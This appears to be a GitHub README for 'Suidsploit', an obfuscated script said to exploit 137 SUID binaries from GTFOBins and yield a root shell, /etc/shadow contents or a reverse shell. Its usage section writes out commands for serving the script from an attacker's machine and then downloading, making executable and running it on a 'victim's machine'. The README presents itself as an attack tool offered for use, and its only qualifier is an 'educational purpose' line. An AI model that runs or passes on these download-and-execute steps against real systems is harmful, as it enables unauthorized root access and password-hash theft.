 # Suidsploit by Tizun & Silky

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

Suidsploit is a Tool which can exploit 137 files from GTFO-Bins.
On successful exploitation you can gain:

- Root Shell
- Output of /etc/shadow
- Reverse shell

# Why it's obfuscated?

- Simply because the creators don't want that their program is ripped

# Usage:
Open your favorite Terminal and run these commands.
On your machine:
- Download Suidsploit
- Start a HTTP-Server

'''sh
$ git clone https://github.com/S1lkys/Suidsploit.git
$ cd Suidsploit/
$ python -m SimpleHTTPServer 80
'''

On victims machine:
- download Suidsploit
- make it executable
- execute Suidsploit

'''sh
$ wget http://192.168.xxx.xxx/Suidsploit.ob.sh

$ chmod +x Suidsploit.ob.sh

$ bash Suidsploit.ob.sh
'''
### Todos

- Fix found Bugs
- Add new Tools

License
----
For educational Purpose only!
---
